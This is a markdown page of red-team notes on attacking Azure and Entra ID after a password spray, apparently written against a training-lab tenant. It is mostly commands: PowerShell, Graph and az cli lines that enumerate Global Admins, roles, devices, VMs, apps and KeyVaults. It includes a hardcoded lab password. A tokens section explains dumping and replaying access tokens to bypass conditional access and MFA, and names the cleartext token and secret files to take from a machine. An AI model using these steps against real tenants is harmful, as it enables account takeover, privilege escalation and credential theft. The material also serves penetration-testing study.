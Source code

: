 *_Got creds for a test user by password spray._
#### AzureAD
We have compromised a user "Test", so first thing after [logging in](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module); lets see what **user permissions** we have - in Azure this will be groups and roles:
```
Get-AzureADUser -SearchString 'test'
Get-AzureADUserMembership -ObjectId test@defcorphq.onmicrosoft.com
```
Can we see much more information about this **group**? ```Get-AzureADGroup -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed | fl *```
**Who** else is in this **group**? (everyone):  ```Get-AzureADGroupMember -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed```


Ok lets look for **admin users**:
```
Get-AzureADUser -SearchString 'admin' | Get-AzureADUserMembership
Get-AzureADUserMembership -ObjectId admin@defcorphq.onmicrosoft.com
```
- I wonder who else is in the Global Admins group? ```Get-AzureADGroupMember -ObjectId 9240b75e-823c-4c02-8868-a00ddbeb3fa1```

_in normal environments we would expect to see some Service Principals (that is an application service account) running as Global Administrator - if we were to compromise that object, or a user that is the owner of that object, we could get GA!_

- Lets check if we are the **owner of a device** (and therefore localadmin)? ```Get-AzureADUserOwnedDevice -ObjectId test@defcorphq.onmicrosoft.com```
- lets see what **devices** are ACTUALLY being **used** (i.e., active): ```Get-AzureADDevice -All $true | ?{$_.ApproximateLastLogonTimeStamp -ne $null}```
- OK now lets see if there are any **custom roles**? ```Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False}``` (May need to use preview module)
- And lets see the **users who have Global admin** role: ```Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember```
#### MG Module
You could also use the MG Module instead if you wanted:
```
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneC@nGu355ForT3stUs3r" -AsPlainText -Force 
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd) 
Connect-AzAccount -Credential $creds 

$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
```
```
Get-MgUser -All
Get-MgUser -All | select UserPrincipalName
Get-MgGroup -All
Get-MgDevice
```

To get all the Global Administrators:
```
$RoleId = (Get-MgDirectoryRole -Filter "DisplayName eq 'Global Administrator'").Id
(Get-MgDirectoryRoleMember -DirectoryRoleId $RoleId).AdditionalProperties
```

list all custom directory roles:
```Get-MgRoleManagementDirectoryRoleDefinition | ?{$_.IsBuiltIn -eq $False} | select DisplayName```

#### az powershell

- Ok now lets enumerate all **resources** visible to the current user:
```Get-AzResource```

- And enumerate all **Azure RBAC role assignments** for all the resources the current user has read access to (NOT just the users role assignments):
```Get-AzRoleAssignment```

- lets output that to a table for ease of use:
```
Get-AzRoleAssignment | select DisplayName, RoleDefinitionName, ObjectType, CanDelegate
```

- Ok now lets look at **Virtual Machines** the user has access to: ```Get-AzVM | fl *```
- And any **Apps**: ```Get-AzWebApp```
  - We could display just **WebApp/Traditional App**:
```Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}```
  - Display **functional App**:
```Get-AzFunctionApp```
- List a table of all visible apps:
```
Get-AzWebApp | select name, HostNames, kind, state, identity
```
- Also **Storage**:
```Get-AzStorageAccount | fl```
- And **KeyVault**:
 ```Get-AzKeyVault```

#### az cli
a good one to use from az cli is the **whoami** equivalent:-
```az ad signed-in-user show```

## Tokens
- Steal tokens (If you are signed in you can dump it with ```(Get-AzAccessToken).token```)
- reuse instead of creds (similar to TGT ticket reuse with Rubeus): ```Connect-AzAccount -AccessToken $token -AccountId test@defcorphq.onmicrosoft.com```
- Test access to resources: ```Get-AzResource```

_with token replay you evade conditional access policy, and almost always mfa and entra id protect as well_
(because its not a sign-in!) all those work only for signin, this is after, direct to api - 
```Web API Validates access token and returns secure data to web server app```

lets get graph token:

```
Get-AzAccessToken -ResourceTypeName MSGraph
disConnect-AzAccount
Connect-AzAccount -AccountId test@defcorphq.onmicrosoft.com -AccessToken $token -MicrosoftGraphAccessToken eyJ0eXA...
```

**best target is managed identity access token - not protected by CAE**

### Steal token
When on a machine look in - ```C:\Users\[username]\.Azure```
 - az cli (before 2.30.0 – January 2022) stores access tokens in clear text in ```accessTokens.json```
    - You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
    - ```azureProfile.json``` in the same directory contains information about subscriptions.
 -  Az PowerShell (older versions) stores access tokens in clear text in ```TokenCache.dat```
    -  It also stores ServicePrincipalSecret in clear-text in AzureRmContext.json if a service principal secret is used to authenticate.
 -  Another interesting method is to take a process dump of PowerShell and looking for tokens in it!
    -  Users can save tokens using Save-AzContext, look out for them! Search for Save-AzContext in PowerShell console history!
